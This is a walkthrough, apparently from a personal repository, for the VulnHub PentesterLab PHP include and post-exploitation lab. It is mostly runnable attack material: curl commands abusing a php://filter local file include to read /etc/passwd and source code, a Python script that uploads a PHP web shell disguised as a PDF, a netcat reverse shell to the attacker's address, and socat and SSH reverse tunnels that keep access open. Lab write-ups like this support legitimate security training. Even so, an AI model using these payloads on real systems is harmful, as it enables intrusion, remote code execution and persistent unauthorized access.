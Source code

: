 https://www.vulnhub.com/entry/pentester-lab-php-include-and-post-exploitation,79/


This exercice describes the exploitation of a local file include with limited access. Once code execution is gained, you will see some post exploitation tricks.



 
$ curl -s http://192.168.110.55/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00 | sed '/<div class="content">/,/<\/div>/!d' | sed 's/<\/\?[^>]\+>//g'| xargs | base64 -d


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
mysql:x:101:103:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:Debian Live user,,,:/home/user:/bin/bash



$ curl -s http://192.168.110.55/index.php?page=php://filter/convert.base64-encode/resource=classes/submission | sed '/<div class="content">/,/<\/div>/!d' | sed 's/<\/\?[^>]\+>//g'| xargs | base64 -d




```php

  function create(){
    if(isset($_FILES['pdf'])){
      $dir = 'uploads/';
      $file = $_FILES['pdf']['name'];
      if ((mime_content_type($_FILES['pdf']['tmp_name']) != "application/pdf")){ 
        DIE("File must be a PDF!!");
      }
      if (!preg_match('/\.pdf$/',$file)) {
        DIE("File must be a PDF!!");
      }
      else  { 
        if(!move_uploaded_file($_FILES['pdf']['tmp_name'], $dir . $file)) {
          die("Error during upload");
        }
      } 
      $sql = "INSERT INTO submissions (email,password,";
      $sql .= "title,description,bio, filename) VALUES ('";

      $title = mysql_real_escape_string($_POST["title"]);
      $file = $dir.mysql_real_escape_string( $file);
      $email = mysql_real_escape_string( $_POST["email"]);
      $password = mysql_real_escape_string( $_POST["password"]);
      $bio = mysql_real_escape_string( $_POST["bio"]);
      $description = mysql_real_escape_string( $_POST["description"]);

    
      $sql .= $email."','".$password."','".$title."','".$description."','";
      $sql .= $bio."','".$file;
      $sql.= "')";
      $result = mysql_query($sql);
      echo mysql_error(); 
    }

  }

```




```python
# submit form
# <form action="/index.php" method="POST" enctype="multipart/form-data">
# Email:<br>  <input type="text" name="email" size="72"><br>
# Password:<br> <input type="password" name="password" size="72"><br>
# Password (again):<br> <input type="password" name="password_again" size="72"><br>
# <br>

# Title:<br>  <input type="text" name="title" size="72"><br>
# Description:<br>
# <textarea name="description" cols="62" rows="6">  </textarea>
# Bio:<br>
# <textarea name="bio" cols="62" rows="6">  </textarea>

# PDF of your presentation:<br>
# <input type="file" name="pdf" size="61"><br> 
# <div align="center">
# <input type="reset" value="Cancel">
# <input type="submit" name="submit" value="Submit">
# </div>
# </form>

import requests
import string

session = requests.Session()
url = "http://192.168.110.55/index.php"

response = session.get(url)
cookies = session.cookies.get_dict()


data = {
    "email" : "test@pentest.com",
    "password" : "test123456",
    "password_again" : "test123456",
    "title" : "test",
    "description" : "test",
    "bio" : "test",
    "submit" : "Submit",
}


# files = {'pdf': open('test.pdf','rb')}
files = {'pdf': open('shell.pdf','rb')}

r = session.post(url, files=files, data=data, cookies=cookies)

print (r.text)

```


Fake PDF file

```bash

$ cat shell.pdf 
%PDF-1.5
<?php system(_GET["cmd"]); ?>

```


Exploit 

```bash
curl -s -G  'http://192.168.110.55/index.php?page=uploads/shell.pdf%00&cmd=ls%20-al' | sed '/<div class="content">/,/<\/div>/!d' | sed -r -e '1,2d' -e '$d' -e 's/^\s+//'

curl -s -G  'http://192.168.110.55/index.php?page=uploads/shell.pdf%00&cmd=nc%20192.168.110.1%204444%20-e%20/bin/sh'

```

Socat tunning


```bash
# attacker
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# victim
while true; do socat TCP4:192.168.110.1:443 TCP4:127.0.0.1:22 2>&1 ; done

# attacker 
# ssh-genkey -P "" -f vulnerable
ssh www-data@localhost -p 2222  -i vulnerable

```


SSH tunning

```bash

# ssh-genkey -P "" -f kali
# append kali.pub to the ~/.ssh/authorized_keys
ssh -N -f -R 2222:127.0.0.1:22  -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null kali@192.168.110.1 -i kali 2>&1

```
